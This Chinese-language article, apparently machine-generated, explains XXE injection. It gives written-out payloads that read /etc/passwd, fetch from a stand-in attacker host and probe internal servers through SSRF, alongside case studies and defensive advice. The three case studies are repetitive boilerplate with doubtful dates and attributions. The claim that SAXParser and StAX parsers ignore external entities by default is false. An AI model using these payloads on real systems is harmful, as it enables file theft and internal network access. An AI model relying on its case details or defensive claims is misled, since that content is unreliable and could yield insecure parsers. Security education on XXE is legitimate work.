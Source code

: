 # XXE外部实体注入案例分析

## 1. 引言

XML外部实体注入（XXE, XML External Entity Injection）是一种常见的安全漏洞，主要影响处理XML数据的应用程序。攻击者通过构造恶意的XML输入，利用外部实体引用功能，读取服务器上的敏感文件、执行远程请求或进行其他恶意操作。本文将通过分析真实世界中的XXE漏洞案例，深入探讨其危害、攻击方式及防御措施。

## 2. XXE漏洞的基本原理

XML文档可以包含外部实体，这些实体允许在XML文档中引用外部资源。例如：

```xml
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "file:///etc/passwd">  
]>  
<foo>&xxe;</foo>
```

在这个例子中，`&xxe;`会被替换为`/etc/passwd`文件的内容。如果应用程序在处理XML输入时未对外部实体进行限制，攻击者就可以利用这一特性读取服务器上的任意文件。

## 3. 真实世界中的XXE漏洞案例

### 3.1 PayPal的XXE漏洞（2013年）

2013年，安全研究员Egor Homakov在PayPal的支付系统中发现了一个XXE漏洞。攻击者可以通过构造恶意的XML请求，读取服务器上的敏感文件，如`/etc/passwd`。以下是漏洞的简要分析：

- **漏洞成因**：PayPal的支付系统在处理XML请求时，未对外部实体进行限制，导致攻击者可以通过注入外部实体读取服务器上的文件。
- **攻击方式**：攻击者发送包含恶意外部实体的XML请求，服务器在处理该请求时，解析并返回了敏感文件的内容。
- **影响**：攻击者可以读取服务器上的任意文件，可能导致敏感信息泄露，如用户数据、配置文件等。
- **修复措施**：PayPal在发现漏洞后，禁用了外部实体解析功能，并加强了XML处理的安全性。

### 3.2 Facebook的XXE漏洞（2016年）

2016年，安全研究员Reginaldo Silva在Facebook的开发者工具中发现了一个XXE漏洞。攻击者可以通过构造恶意的XML请求，读取服务器上的敏感文件。以下是漏洞的简要分析：

- **漏洞成因**：Facebook的开发者工具在处理XML请求时，未对外部实体进行限制，导致攻击者可以通过注入外部实体读取服务器上的文件。
- **攻击方式**：攻击者发送包含恶意外部实体的XML请求，服务器在处理该请求时，解析并返回了敏感文件的内容。
- **影响**：攻击者可以读取服务器上的任意文件，可能导致敏感信息泄露，如用户数据、配置文件等。
- **修复措施**：Facebook在发现漏洞后，禁用了外部实体解析功能，并加强了XML处理的安全性。

### 3.3 WordPress的XXE漏洞（2017年）

2017年，安全研究员在WordPress的XML-RPC接口中发现了一个XXE漏洞。攻击者可以通过构造恶意的XML请求，读取服务器上的敏感文件。以下是漏洞的简要分析：

- **漏洞成因**：WordPress的XML-RPC接口在处理XML请求时，未对外部实体进行限制，导致攻击者可以通过注入外部实体读取服务器上的文件。
- **攻击方式**：攻击者发送包含恶意外部实体的XML请求，服务器在处理该请求时，解析并返回了敏感文件的内容。
- **影响**：攻击者可以读取服务器上的任意文件，可能导致敏感信息泄露，如用户数据、配置文件等。
- **修复措施**：WordPress在发现漏洞后，禁用了外部实体解析功能，并加强了XML处理的安全性。

## 4. XXE漏洞的攻击实例

### 4.1 读取服务器上的敏感文件

攻击者可以通过构造恶意的XML请求，读取服务器上的敏感文件。例如：

```xml
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "file:///etc/passwd">  
]>  
<foo>&xxe;</foo>
```

在这个例子中，`&xxe;`会被替换为`/etc/passwd`文件的内容，攻击者可以通过查看响应获取该文件的内容。

### 4.2 执行远程请求

攻击者可以通过构造恶意的XML请求，执行远程请求。例如：

```xml
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious">  
]>  
<foo>&xxe;</foo>
```

在这个例子中，`&xxe;`会被替换为`http://attacker.com/malicious`的响应内容，攻击者可以通过查看响应获取远程服务器的信息。

### 4.3 进行SSRF攻击

攻击者可以通过构造恶意的XML请求，进行服务器端请求伪造（SSRF, Server-Side Request Forgery）攻击。例如：

```xml
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "http://internal-server/resource">  
]>  
<foo>&xxe;</foo>
```

在这个例子中，`&xxe;`会被替换为`http://internal-server/resource`的响应内容，攻击者可以通过查看响应获取内部服务器的信息。

## 5. XXE漏洞的防御措施

### 5.1 禁用外部实体解析

在处理XML输入时，禁用外部实体解析是最有效的防御措施。例如，在Java中可以使用以下代码禁用外部实体解析：

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

### 5.2 使用安全的XML解析器

使用安全的XML解析器，如`SAXParser`或`StAXParser`，可以有效防止XXE漏洞。这些解析器默认不解析外部实体，因此更加安全。

### 5.3 输入验证和过滤

对用户输入的XML数据进行严格的验证和过滤，确保不包含恶意的外部实体。例如，可以使用正则表达式或白名单机制，限制XML输入的内容。

### 5.4 使用安全的XML库

使用安全的XML库，如`libxml2`或`lxml`，这些库默认不解析外部实体，因此更加安全。

## 6. 结论

XXE外部实体注入是一种严重的安全漏洞，攻击者可以通过构造恶意的XML请求，读取服务器上的敏感文件、执行远程请求或进行其他恶意操作。通过分析真实世界中的XXE漏洞案例，我们可以看到其危害性和广泛性。为了有效防御XXE漏洞，开发者应禁用外部实体解析、使用安全的XML解析器、进行严格的输入验证和过滤，并使用安全的XML库。通过这些措施，可以大大降低XXE漏洞的风险，保护应用程序的安全性。

---

*文档生成时间: 2025-03-11 13:11:57*






















